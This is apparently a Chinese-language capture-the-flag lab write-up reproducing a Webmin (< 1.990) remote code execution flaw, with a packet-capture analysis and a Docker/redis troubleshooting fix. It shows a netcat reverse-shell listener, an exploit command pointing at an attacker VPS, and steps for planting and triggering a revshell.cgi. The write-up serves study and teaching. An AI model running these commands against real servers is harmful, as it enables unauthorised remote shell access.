 

# Webmin远程代码执行漏洞复现（Webmin < 1.990）

## 漏洞说明

Webmin 是一个功能强大且灵活的基于 Web 的服务器管理控制面板，适用于类 Unix 系统。它允许用户通过网页配置系统组件，如用户、磁盘配额、服务、配置文件等，也支持控制诸如 Apache、PHP、MySQL 等开源应用程序。

## 情景分析

进入靶场后，发现 Webmin 登录界面，靶场描述中提供了账号密码。

![进入webmin](./进入webmin.png)

登录后台后根据观察后台的整体情况可发现存在多个可利用点，包括：

* **命令执行**：后台存在外部命令窗口，可执行任意系统命令。
  ![外部命令窗](./外部命令窗.png)

* **文件读取**：文件管理器允许读取任意路径下文件。
  ![文件读取](./文件读取.png)

* **文件上传下载**：支持任意文件上传，上传路径可自定义，同时支持远程 URL 下载。
  ![文件下载上传](./文件下载上传.png)

## 漏洞原理分析

Webmin 的文件管理器模块权限控制存在缺陷，低权限认证用户也可以：

* 上传、下载任意文件；
* 修改任意文件权限。

攻击者可上传反弹 Shell 脚本、赋予执行权限，并通过 HTTP 请求执行，实现远程命令执行（RCE）。

## 漏洞影响版本

* **影响版本**：Webmin `< 1.990`
* **测试账户**：`root:password`
* **受影响组件**：`session_login.cgi` 可被滥用

## 实验过程

### 靶机

部署并启动 Webmin 容器或靶场环境，访问其 Web 页面：

![webmin地址](./webmin地址.png)

### 攻击机

监听反弹 Shell 端口：

```bash
nc -lvnp 9999
```

准备执行 POC：

```bash
python3 exp.py -t http://目标IP:目标PORT -c root:password -LS vps_ip:vps_port -L vps_ip -P vps_port
```

参数说明：

* `-t`：目标地址；
* `-c`：账号:密码；
* `-LS`：用于创建 HTTP 服务供目标下载文件；
* `-L` 和 `-P`：反弹shell的对象ip，反弹shell的对象port
攻击效果图示：

* 成功反弹 Shell：
  ![找到flg2](./找到flg2.png)

* 获取 flag：
  ![找到flg](./找到flg.png)
  ![lstemp](./lstemp.png)

## 漏洞利用脚本说明

### 利用流程概括：

```bash
1. 创建 revshell.cgi 反弹脚本；
2. 使用提供的账号登录 Webmin；
3. 利用python3python_server是创建了一个httpserver用于服务器下载在本地开启http服务；
4. 目标服务器通过 Webmin 下载 revshell.cgi；
5. 用webmin自带的赋权功能进行普通用户赋权,修改revshell.cgi文件的权限，其可以执行；
6. 访问该脚本触发反弹 Shell（通过http访问revshell.cgi），实现 RCE；
7. 攻击完成后清理文件及进程。
```

脚本示意图：

* 脚本创建与下载：
  ![代码1](./代码1.png)

* 文件赋权与触发：
  ![代码2](./代码2.png)

## 抓包分析

设置过滤器观察攻击流量。由于为提权漏洞，关键行为为 POST 请求 `session_login.cgi`。

### 登录请求抓包：
首先设定一个过滤，因为这是一个提权漏洞，通过漏洞发送POST请求方式去请求session_login.cgi,如下图所示
![抓包](./抓包.png)

### 利用流程抓包：

* 下面两张图是脚本去请求session_login.cgi

  ![抓包1](./抓包1.png)
  ![抓包2](./抓包2.png)

* 这个包中发现攻击机下载路径以及下载后目标机文件保存路径
  ![抓包4](./抓包4.png)
  ![抓包5](./抓包5.png)

* 数据包内容：对下载完成文件进行了赋予执行权
  ![抓包6](./抓包6.png)

* 观察POC，它需要上传一个Payload后进行加权才能回连，确定判断攻击成功条件为上传成功文件并赋权执行。
  ![抓包7](./抓包7.png)
## 遇到的问题

vulfocus提示“服务器内部错误，请联系管理员”

![服务器内部异常](./服务器内部异常.png)

原因：

* 出现的原因在于redis服务未启动，所以需要进入容器内部启动redis服务
```bash
    docker ps # 查看当前运行的vulfocus容器ID
    docker exec -it <container-id> bash # 进入容器
    redis-server & # 启动redis服务
```
